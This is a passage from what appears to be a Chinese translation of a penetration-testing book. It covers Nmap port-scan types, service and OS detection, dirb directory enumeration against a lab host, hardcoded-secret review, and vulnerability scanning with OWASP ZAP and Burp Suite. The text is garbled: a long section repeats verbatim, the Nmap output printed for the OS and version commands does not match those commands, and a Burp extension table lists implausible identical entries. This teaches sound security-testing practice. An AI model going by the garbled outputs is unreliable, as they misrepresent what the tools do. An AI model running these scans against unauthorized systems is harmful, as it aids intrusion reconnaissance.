| 01 TCP 扫描 | `-sT` |
| 02 UDP 扫描 | `-sU` |
| 03 隐隐扫描（半开放扫描） | `-sS` |
| 04 FIN 扫描 | `-sF` |
| 05 Null 扫描 | `-sN` |
| 06 Xmas 扫描 | `-sX` |

表 3.2：`NMAP` 端口扫描技术

- `TCP` 扫描：`TCP` 扫描是通过向目标主机的各种端口发送 `TCP` 数据包，来确定目标主机上的某个端口是否开放的方法。`TCP` 扫描的一个示例是 `TCP` 连接扫描，它会与目标端口建立完整的 `TCP` 连接。这种方法被认为是最可靠、最准确的，但也最容易被检测到。

- `UDP` 扫描：`UDP` 扫描是通过向目标主机的各种端口发送 `UDP` 数据包，来确定目标主机上的某个端口是否开放的方法。

- 隐隐扫描（半开放扫描）：半开放扫描也称为 `SYN` 扫描，它向目标端口发送 `SYN` 数据包，如果目标端口是开放的，主机将响应 `SYN-ACK` 包。如果端口是关闭的，主机将响应 `RST` 包。

- `FIN` 扫描：该扫描向目标端口发送 `FIN` 数据包并等待响应。如果远程主机上的端口是开放的，它将响应 `RST`（重置）包，显示端口已关闭。如果端口是关闭的，则不会从远程主机接收到响应，表明端口是开放的。

- `Null` 扫描：这种技术涉及发送在 `TCP` 头部中没有设置任何标记的数据包，称为空包（`null packet`）。如果远程主机上的端口是开放的，则不会发送任何响应。如果端口是关闭的，远程主机将发出 `RST`（重置）包作为响应。

- `Xmas` 扫描：这种技术涉及发送在 `TCP` 头部中设置了 `FIN`、`PSH` 和 `URG` 标记的数据包，称为圣诞包（`Xmas packet`）。如果远程主机上的端口是开放的，它将响应 `RST`（重置）包，表明端口关闭。如果端口是关闭的，远程主机将不响应，表明端口是开放的。

> 注意：与全开放扫描不同，半开放扫描不会与远程主机完全建立连接，并让连接处于不完全状态。半开放扫描较不易被不创建连接的防火墙和入侵检测系统检测到。

## 运行的服务和版本检测

一旦识别了目标主机上的端口，下一步就是识别在每个端口上运行的服务和版本。`Nmap` 可以通过向目标主机发送一系列探测并分析响应来实现此点。通过检查响应的横幅（`banner`）、应用程序版本或其他标识特征，`Nmap` 可以确定在每个端口上运行的服务和版本。服务和版本检测对于识别可能存在已知漏洞或误配置的特定软件有用，渗透测试人员可以利用这些漏洞。

要确定服务名称和版本，可以在 `Nmap` 命令中使用 `-sV` 标记，如图 3.21 示例所示。

运行以下命令：`nmap -v -p 22 -sV 192.168.159.129`

```
nmap -sV -sO 192.168.159.129 at 2023-01-18 21:41 EST

Starting Nmap 7.93 (https://nmap.org)

Nmap Scripting Engine: default scripts
```


Scanned `192.168.159.129` (1 host)

Completed Scan at 21:41, 0.0s elapsed

Parallel DNS resolution of 1 host at 21:40

Completed Parallel DNS resolution of 1 host, 0.03s elapsed

Initiating Connect Scan at 21:40

Scanning `192.168.159.129` [1 port]

Discovered open port `22/tcp` on `192.168.159.129`

Completed Connect Scan 1 port at 21:40, 0.08s elapsed (1 host)

Nmap scan report for `192.168.159.129`

Host is up (0.00125 latency).

```
PORT STATE SERVICE
22/tcp open ssh
```

Read data files from: `/usr/bin/../share/nmap`
nmap done: 1 IP address (1 host) scanned in 0.14 seconds

图 3.21：运行的服务和版本检测

## OS 指纹识别

操作系统（OS）指纹识别是通过分析各种数据包的响应来识别目标操作系统的过程。`Nmap` 是此领域的常用工具，它将响应与已知操作系统数据库进行比较。这些信息对于发现特定操作系统的漏洞有用。

要确定主机的操作系统，可以在 `Nmap` 命令中使用 `-O` 选项，如图 3.22 所示。

运行以下命令：`nmap -O 192.168.159.129`

```
nmap -sV -sO 192.168.159.129 at 2023-01-18 21:41 EST

Starting Nmap 7.93 (https://nmap.org)

Nmap Scripting Engine: default scripts

Scanned 192.168.159.129 (1 host)

Completed Scan at 21:41, 0.0s elapsed

Parallel DNS resolution of 1 host at 21:40

Completed Parallel DNS resolution of 1 host, 0.03s elapsed

Initiating Connect Scan at 21:40

Scanning 192.168.159.129 [1 port]

Discovered open port 22/tcp on 192.168.159.129

Completed Connect Scan 1 port at 21:40, 0.08s elapsed (1 host)

Nmap scan report for 192.168.159.129

Host is up (0.00125 latency).

PORT STATE SERVICE
22/tcp open ssh

Read data files from: /usr/bin/../share/nmap
nmap done: 1 IP address (1 host) scanned in 0.14 seconds
```

图 3.22：使用 `nmap` 进行 OS 识别

## 目录枚举

Web 目录枚举是 Web 渗透测试阶段使用的一种技术。它涉及使用工具和方法（如自动化脚本和手动浏览）来识别并列出目标应用程序存在的所有目录和页面。有很多枚举工具可用，如 `gobuster`、`Dirb` 和 `Nikto`，它们都提供图形界面和命令行版本。这些工具使用预定义的可能目录列表向目标应用程序发送请求。然后分析应用程序的响应，并将返回预期响应的目录标记为存在。

该技术的发现可能会发现无意中留在服务器上的机密和隐藏目录。可能会发现旧的备份和压缩包。此外，还可以在明文文件中找到登录凭据。开发框架和语言的细节也可能泄露，允许攻击者轻松利用相关的漏洞。发现秘密登录面板也会扩大攻击面。

为了直观地演示目录枚举，我们可以查看图 3.23 所示的 `dirb` 的执行情况。

运行以下命令：`dirb http://192.168.159.129/multullidae`

```bash
$ dirb http://~/desktop

$ dirb http://192.168.159.129/multullidae/

DIRB v0.22
 The Dark Raver

START TIME: Mon Jan 18 22:41:07 2023

URL: http://192.168.159.129/multullidae/

WORDLIST_FILE: /usr/share/dirb/wordlists/common.txt

GENERATED MISSES:

 Scanning URL: http://192.168.159.129/multullidae/

 -- DIRECTORY: http://192.168.159.129/multullidae/classes (CODE:200:489)
 -- DIRECTORY: http://192.168.159.129/multullidae/admin (CODE:200:1150)
 -- DIRECTORY: http://192.168.159.129/multullidae/documentation (CODE:200:317)
 -- DIRECTORY: http://192.168.159.129/multullidae/footer (CODE:200:458)
 -- DIRECTORY: http://192.168.159.129/multullidae/images (CODE:200:2930)
 -- DIRECTORY: http://192.168.159.129/multullidae/scripts (CODE:200:448)
 -- DIRECTORY: http://192.168.159.129/multullidae/includes (CODE:200:2427)
 -- DIRECTORY: http://192.168.159.129/multullidae/js (CODE:200:2427)
 -- DIRECTORY: http://192.168.159.129/multullidae/index.php (CODE:200:2427)
 -- DIRECTORY: http://192.168.159.129/multullidae/javascript (CODE:200:3518)
 -- DIRECTORY: http://192.168.159.129/multullidae/login (CODE:200:5462)
 -- DIRECTORY: http://192.168.159.129/multullidae/page-not-found (CODE:200:785)
 -- DIRECTORY: http://192.168.159.129/multullidae/css (CODE:200:4034)
 -- DIRECTORY: http://192.168.159.129/multullidae/phpinfo (CODE:200:4938)
 -- DIRECTORY: http://192.168.159.129/multullidae/phpAdmin (CODE:200:1744)
```

> 图 3.23: 目录枚举

## 硬编码信息

虽然渗透测试期间的主要关注点应该是核心侦察战术，但审查客户端和服务器端的源代码也同样重要。这可以向攻击者暴露关键信息。可以使用各种开源工具（如调试器和浏览器扩展）进行源码分析，以识别编码中的缺陷和相关的漏洞。此外，还有高级工具可用于自动化源代码审查。本次练习的最终目标是识别漏洞，并建议应用程序所有者在客户端代码中避免硬编码信息。

在源码审查过程中，渗透测试人员可以发现以下信息：

- 渗透人员可能提取硬编码在客户端应用程序或网站中的密码、`API` 密钥、静态令牌和其他机密数据。
- 这些信息可用于未经授权地访问受保护的资源。
- 此外，渗透测试人员可以使用这种初始访问权限执行高级攻击以实现权限提权。

> 注意：当硬编码信息（如个人身份信息 `PII` 或敏感数据）未得到妥善保护时，可能会被暴露。这可能导致不符合 `GDPR` 或 `HIPAA` 等法规，并导致惩罚或罚金。

## 侦察的额外资源

除了讨论的侦察战术外，还有各种杂技术可以根据需要使用。这些技术在收集目标信息方面可能非常有效。让我们讨论一些工具及其实际用法。

## `Maltego`

`Maltego` 由南非普里托利亚的 `Paterva` 开发，是一种用于查找信息和进行侦查工作的强大工具。它非常擅长从开源收集数据并以图表的形式展示。通过与 `WHOIS`、`Shodan`、`The Wayback Machine`、`AT&CK`、`Pipl`、`VirusTotal` 等地点的链接，它开启了大量数据。它还有许多特殊工具（变换）可以进行深度挖掘。

我们将使用 `Maltego` 的免费社区版进行此演示。只需在其网站上注册即可。`Maltego` 包含几个部分：顶部的导航栏、主区域以及右侧的工具栏。

## `SPARTA`

`SPARTA` 是一个基于 `Python` 的 `GUI` 工具，用于自动化枚举、漏洞评估、网络爬虫和暴力破解。它通过提供易于理解的界面简化了测试流程，为测试人员节省了宝贵的时间和精力。


-- DIRECTORY: `http://192.168.159.129/multullidae/index.php` (CODE:200:2427)
-- DIRECTORY: `http://192.168.159.129/multullidae/javascript` (CODE:200:3518)
-- DIRECTORY: `http://192.168.159.129/multullidae/login` (CODE:200:5462)
-- DIRECTORY: `http://192.168.159.129/multullidae/page-not-found` (CODE:200:785)
-- DIRECTORY: `http://192.168.159.129/multullidae/css` (CODE:200:4034)
-- DIRECTORY: `http://192.168.159.129/multullidae/phpinfo` (CODE:200:4938)
-- DIRECTORY: `http://192.168.159.129/multullidae/phpAdmin` (CODE:200:1744)

> 图 3.23: 目录枚举

## 硬编码信息

虽然渗透测试期间的主要关注点应该是核心侦察战术，但审查客户端和服务器端的源代码也同样重要。这可以向攻击者暴露关键信息。可以使用各种开源工具（如调试器和浏览器扩展）进行源码分析，以识别编码中的缺陷和相关的漏洞。此外，还有高级工具可用于自动化源代码审查。本次练习的最终目标是识别漏洞，并建议应用程序所有者在客户端代码中避免硬编码信息。

在源码审查过程中，渗透测试人员可以发现以下信息：

- 渗透人员可能提取硬编码在客户端应用程序或网站中的密码、API 密钥、静态令牌和其他机密数据。
- 这些信息可用于未经授权地访问受保护的资源。
- 此外，渗透测试人员可以使用这种初始访问权限执行高级攻击以实现权限提权。

> 注意：当硬编码信息（如个人身份信息 PII 或敏感数据）未得到妥善保护时，可能会被暴露。这可能导致不符合 GDPR 或 HIPAA 等法规，并导致惩罚或罚金。

## 侦察的额外资源

除了讨论的侦察战术外，还有各种杂技术可以根据需要使用。这些技术在收集目标信息方面可能非常有效。让我们讨论一些工具及其实际用法。

## Maltego

Maltego 由南非普里托利亚的 Paterva 开发，是一种用于查找信息和进行侦查工作的强大工具。它非常擅长从开源收集数据并以图表的形式展示。通过与 WHOIS、Shodan、The Wayback Machine、AT&CK、Pipl、VirusTotal 等地点的链接，它开启了大量数据。它还有许多特殊工具（变换）可以进行深度挖掘。

我们将使用 Maltego 的免费社区版进行此演示。只需在其网站上注册即可。Maltego 包含几个部分：顶部的导航栏、主区域以及右侧的工具栏。

## SPARTA

SPARTA 是一个基于 Python 的 GUI 工具，用于自动化枚举、漏洞评估、网络爬虫和暴力破解。它通过提供易于理解的界面简化了测试流程，为测试人员节省了宝贵的时间和精力。

加入书籍的 Discord 工作空间以获取最新更新、优惠、全球科技动态、新发布以及与作者的互动：

`https://discord.bpbonline.com`


# 第 4 章：漏洞评估与管理

## 引言

在本章中，我们将探索漏洞评估（VA）及其相关的管理策略。这项工作的首要目标是为渗透测试人员和安全专家提供手动和自动化方法方面的关键知识和专业技能，使他们能够对各种计算机基础设施进行深度的漏洞评估。

此外，我们还将探讨准确且有针对性的补丁管理在优化漏洞评估整体效能方面的重要性。在本章结束时，你将对漏洞评估的各种技术和最佳实践有稳健的理解，并能够熟识别并修复组织中的漏洞。

## 结构

在本章中，我们将讨论以下主题：

- 漏洞评估概述
- 漏洞命名法
- 漏洞管理生命周期
- 漏洞评估
  - Web 应用程序
  - 计算机网络
  - 移动应用程序
  - 容器
  - 漏洞管理
  - 应用安全
    - 静态应用安全测试
    - 动态应用安全测试

## 漏洞评估概述

漏洞评估是发现计算机系统安全缺陷的关键过程。该评估利用自动化工具来定位漏洞并对发现的结果生成报告。这种练习有助于组织了解自身的安全态势，应对潜在威胁，并通过及时修复新发现的弱点来防止网络攻击。漏洞评估为组织提供了 IT 资产和安全漏洞提供了关键洞察。这些信息允许组织实施有效的安全措施并降低网络攻击风险，最终提高其整体安全态势。

漏洞评估既可以手动进行，也可以通过自动化进行。自动化扫描速度更快，所需的人工较少，而手动评估的优势是误报率较低。混合方法结合了二者的最佳结果，因为可以对自动化扫描的结果进行手动验证，以检测误报和漏报，并提高整体扫描质量。

以下是各种类型漏洞评估扫描的插图，如图 4.1 所示。


图 4.1：漏洞评估扫描类型

以下是各种类型的漏洞评估扫描：

- **基于应用程序的漏洞扫描**：识别 Web 应用程序中与代码和配置相关的安全缺陷。
- **基于网络的漏洞扫描**：检测网络基础设施中的漏洞，例如配置错误的设备、弱密码和开放端口。
- **无线网络漏洞扫描**：搜索无线网络中的安全缺陷，包括弱加密、不安全的访问点和未经授权的访问。
- **数据库漏洞扫描**：评估数据库及其连接系统的潜在安全风险，包括配置错误的设置、弱身份验证和未受保护的数据。
- **基于主机的漏洞扫描**：识别单个计算机或设备中的漏洞，包括配置错误的设置、过时的软件和安全缺口。

> 为了进行全面的 VA 扫描，必须确保满足所有必要的先决条件。这些包括获取所需的权限、明确定义范围、选择扫描类型、选择合适的扫描窗口、准备环境，并为任务仔细选择正确的工具和资源。

## 漏洞命名法

漏洞命名法是用于描述应用程序、软件、网络或计算机系统中漏洞的命名规范。将漏洞的文档、通信和讨论标准化，使得安全专业人员更容易有效地管理和识别它们。

漏洞命名法通常包含一个唯一标识符（例如漏洞标识符或代码）、漏洞影响信息、受影响的系统或软件以及漏洞描述。这些信息通常存储并维护在中央数据库中，例如常见漏洞与暴露（CVE）和常见弱点枚举（CWE）。

> 使用标准化的术语和类别可以让不同团队和利益相关者更好地理解和审量漏洞，减少误解并有效解决已识别的漏洞。

## 漏洞管理生命周期

漏洞管理（VM）生命周期是一个全面且循环的方法，旨在确保持续的安全评估具有高质量，从而有效应对和缓解组织计算机系统和网络基础设施中的漏洞。VM 生命周期允许组织执行资产发现、漏洞评估、漏洞优先级排序、报告生成、修复和重新验证。VM 生命周期使组织能够执行这些活动。参考图 4.2 以获取对生命周期的视觉理解：



图 4.2：漏洞管理生命周期

> 注意：采用漏洞管理生命周期是一种主动的网络安全方法，可以为组织识别并修复漏洞，防止潜在损害。

## 漏洞评估

计算机系统中存在可以进行漏洞评估的领域。让我们在实践中深入了解一些：

### Web 应用程序

对 Web 应用程序进行漏洞扫描被认为是评估网站安全态势的金标准，因为它会对网站进行大量已知漏洞的检查，以发现任何潜在弱点。为了掌握自动化漏洞扫描的基础，我们将探索领域内最常用的两个工具：OWASP ZAP 和 Burp Suite 社区版。为了展示扫描过程并评估这些工具的效率，我们将 bWAPP，这是一个故意留有漏洞的免费访问 Web 应用程序。bWAPP 为安全爱好者提供了在真实环境中利用漏洞的实践体验。

### OWASP ZAP

OWASP ZAP 是一种直观且集成的漏洞评估与渗透测试工具，旨在用于识别 Web 应用程序的安全缺陷。它是一个强大的开源工具，适用于漏洞评估和渗透测试，提供全面的安全评估。让我们逐步深入安装过程、配置目标并理解其功能：

1. **安装 OWASP ZAP**：如图 4.3 所示，在 Kali Linux 上执行命令 `sudo apt install zapproxy`

```bash
$ ummedeel@kali:~
$ sudo apt install zapproxy
[sudo] password for ummedeel:
读取软件包列表 ... Done
构建依赖树 ... Done
读取状态信息 ... Done
将安装新软件包：
zapproxy
0 个升级，1 个安装，0 个移除，33 未升级
需要下载 182 MB 的存档
在此操作后将使用 288 MB 的额外磁盘空间
Get: http://kali.org/download/kali kali-rolling/main/amd64 zapproxy all 2.12.0-0kali1
15% [1 zapproxy 34.6 MB/182 MB 19%]
```

> 图 4.3：安装 OWASP ZAP

2. **启动 OWASP ZAP**：安装完成后，通过 Web 应用程序分析选项卡访问 ZAP 应用程序，如图 4.4 所示：

3. **配置 ZAP**：在启动扫描之前，根据您的需求对 ZAP 进行自定义配置。这包括配置代理、选择扫描类型、建立扫描策略以及其他设置，如图 4.5 所示：

4. **启动扫描**：ZAP 界面中的新按钮用于启动扫描。在自动化扫描过程开始之前，蜘蛛（Spider）将启动网络爬取以收集信息。输入目标网站的 URL 并开始扫描，如图 4.6 所示：



图 4.5: 配置 OWASP ZAP



图 4.6: 启动扫描

5. **分析结果**：扫描完成后，ZAP 将呈现一份在目标网站上发现的漏洞报告。报告将包含每个漏洞的严重程度、描述以及修复建议，如图 4.7 所示。进入报告部分并选择报告按钮生成报告。报告将以 HTML 格式生成。

#### 按站点和风险划分的警报计数

此表显示了每个产生一个或多个警报的站点在每个风险级别上产生的警报数量。
置信度为“误报”（False Positive）的警报已从这些计数中排除。
（括号中的数字是该站点达到或高于相应风险级别的警报数量）。

| 站点 | 高 (> 高) | 中 (>= 中) | 低 (>= 低) | 提示性 |
|---|---|---|---|---|
| `http://172.18.10.6` | 0 (5) | 5 (3) | 2 (0) | |

#### 按类型划分的警报计数

此表显示了每个警报类型的数量以及该警报的风险级别。
（百分比代表每个计数占此报告所包含警报总数的百分比，保留一位小数）。

| 警报类型 | 风险 | 计数 |
|---|---|---|
| 缺少 CSRF Token | 中 | 6 (40.0)% |
| 未设置内容安全策略 (CSP) 头部 | 中 | 8 |

图 4.7: 分析结果

注意：密切监控扫描进度，因为取决于网站的大小和待评估的漏洞范围，扫描过程可能需要大量时间。可以通过 ZAP 界面监控扫描进度。

### Burp suite

由 PortSwigger 开发，是一套用于 Web 应用程序渗透测试和渗透性评估（VAPT）的综合工具集。它提供三个版本：社区版、专业版和企业版。在本次练习中，我们将使用 Burp suite 的专业版。

Burp suite 内部各种工具（如代理、重放器、入侵者、序列器、解码器和扩展器）无缝协作，以确保整个测试过程。它们有助于映射和分析应用程序的攻击面，并识别和利用安全漏洞。让我们了解配置扫描的步骤方法并理解其功能：

#### 1. 启动 Burp suite

通过在 Windows 开始菜单中搜索并访问 Burp suite 应用程序，如图 4.8 所示：



图 4.8: 启动 Burp suite

#### 2. 配置 Burp suite

在开始扫描前自定义 Burp suite 以满足您的需求。Burp suite 支持扩展，这些扩展是增强工具功能的插件。这些扩展允许您根据需求定制工具并集成自定义功能。BApp store 中的一些关键扩展如图 4.9 所示：

##### BApp Store

BApp Store 包含了由用户对 Burp Suite 扩展进行的评分。

| 名称 | 版本 | 评分 | 更新日期 |
|---|---|---|---|
| AST Scanner | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| HTTP Editor | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| JWT Authenticator | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| SQLi Scanner | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| HTTP Collaborator | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| CSRF Scanner | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| OpenScan | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| JSON Invoker | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Burp Bounty | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Active Scan Tool | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| API Fuzzer | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Parameter Miner | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Link Discovery | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Request editor | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Header Editor | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Endpoint Suite | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Param Fuzzer | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Path Scanner | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| XSS Scanner | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Auth Fuzzer | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Burp Bounty | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Fuzz Pro | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| App Fuzzer | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Request Suite | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Link Discovery | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| Browser Suite | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| BrowserScanner | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| App Fuzzer | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |
| API Suite | 1.0.0 | 4.5 | 2022年1月22日 | PortSwigger |

##### 新功能

HTTP 请求现在允许请求参数在运行时可调。在具有值的请求参数中：第一行值现在具有。请求仅在可以编辑的上下文中有效，例如代理拦截视图。

`https://blog.portswigger.net/blog/2022/01/new-features-in-burp-suite/`


## Burp

Burp 可用于向其他工具发送任何安全评估信息，并将被正确处理。



图 4.9: 配置 Burp suite

### 3. 开始扫描

点击 Burp 界面内的新的 `Scan` 按钮以启动扫描。您还可以更改爬虫、审计和资源池的配置。爬虫将启动全面的爬取以收集信息，随后是自动化活动扫描过程。要开始扫描，输入目标网站的 `URL` 并点击确定，如图 4.10 所示：



图 4.10: 开始扫描

### 4. 身份验证扫描

这允许对应用程序进行深度检查，并检测非身份验证扫描期间可能不存在的安全漏洞和其他问题。您可以在 Burp 中输入登录凭据，如图 4.11 所示：



图 4.11: 身份验证扫描

### 5. 分析结果

扫描完成后，Burp 将呈现一份在目标网站上发现的漏洞报告。报告将包含每个漏洞的严重程度、描述以及修复建议，如图 4.12 所示。在 `Issue Activity` 部分有多种选项用于分析发现、探索问题详情以及影响端点。

## 网络

网络漏洞评估是一项全面的评估，旨在识别潜在的安全缺陷并评估公司网络安全的稳健性。该过程可以使用手动和自动化方法进行，以发现开放端口、识别服务及其版本，并根据相关的常见漏洞和披露（`CVE`）识别码编制漏洞列表。在本次演示中，我们将使用三个实用工具：`Nessus`、`Legion` 和 `Nmap`，以对网络漏洞过程的实际理解。

